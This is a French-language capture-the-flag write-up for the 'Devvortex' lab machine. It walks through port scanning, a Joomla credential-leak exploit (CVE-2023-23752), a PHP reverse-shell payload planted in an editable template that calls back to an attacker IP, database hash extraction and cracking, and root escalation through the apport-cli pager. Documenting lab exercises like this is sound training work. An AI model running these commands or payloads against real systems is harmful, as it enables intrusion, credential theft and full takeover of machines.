 # Devvortex

	echo "10.10.11.242 devvortex.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.242 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.242 -oN nmap.txt
	feroxbuster --silent -u http://devvortex.htb
	
Scans classiques.

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)

Rien d'intéressant à première vue.

Un peu de fuzzing supplémentaire : 

	ffuf -H "Host: FUZZ.devvortex.htb" -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fc 302

On voit un sous-domaine "dev" : 

> dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 1992ms]

    echo "10.10.11.242 dev.devvortex.htb" >> /etc/hosts
    curl http://dev.devvortex.htb/robots.txt
    
    User-agent: *
    Disallow: /administrator/
    Disallow: /api/
    Disallow: /bin/
    Disallow: /cache/
    Disallow: /cli/
    Disallow: /components/
    Disallow: /includes/
    Disallow: /installation/
    Disallow: /language/
    Disallow: /layouts/
    Disallow: /libraries/
    Disallow: /logs/
    Disallow: /modules/
    Disallow: /plugins/
    Disallow: /tmp/

Sur la page http://dev.devvortex.htb/administrator/ on voit un portail de login Joomla. 


    joomscan -u http://dev.devvortex.htb/administrator/
    
    
La version semble vulnérable. 

Voir : 
- https://nvd.nist.gov/vuln/detail/CVE-2023-23752 
- https://www.exploit-db.com/exploits/51334


        vim joomla.rb
        sudo gem install httpx docopt paint
        ruby joomla.rb http://dev.devvortex.htb

On obtient un nom d'utilisateur ("lewis") et son mot de passe.

Ces credentials nous permettent de nous connecter sur le Joomla. On voit des templates, dont un "login.php", exécutant du code PHP que l'on a le droit de modifier : 

http://dev.devvortex.htb/administrator/index.php?option=com_templates&view=template&id=222&file=L2xvZ2luLnBocA%3D%3D&isMedia=0

Exemple de payload à rajouter dans le PHP : 

    system('bash -c "bash -i >& /dev/tcp/10.10.16.11/9999 0>&1"');
    
En se déconnectant, avec la redirection sur la page de login, on reçoit immédiatement le reverse-shell en tant que "www-data"
    
Le compte "lewis" fonctionne aussi pour la base de données : 

    python3 -c "import pty;pty.spawn('/bin/bash')"
    mysql -u lewis -p joomla
    mysql> show databases;
    mysql> use joomla;
    mysql> show tables;
    mysql> SELECT username, password FROM sd4fg_users;

On obtient un hash pour l'utilisateur "logan" :

    vim hash.txt
    john --wordlist=~/rockyou.txt hash.txt
    
	ssh logan@10.10.11.242
	cat user.txt	 
    

## Élévation de privilèges


	sudo -l
    
>User logan may run the following commands on devvortex:
>&nbsp;&nbsp;&nbsp;&nbsp;(ALL : ALL) /usr/bin/apport-cli

    /usr/bin/apport-cli -v

> 2.20.11


<br>Une élévation de privilèges locale existe grâce au pager.
Voir : https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb

On peut donc utiliser l'application pour générer un rapport factice, puis pour le voir à la fin. On pourra, à ce moment-là, utiliser le trick du '!' pour passer root : 

    sudo /usr/bin/apport-cli --file-bug
    ...
    !/bin/sh
	whoami
	cat /root/root.txt
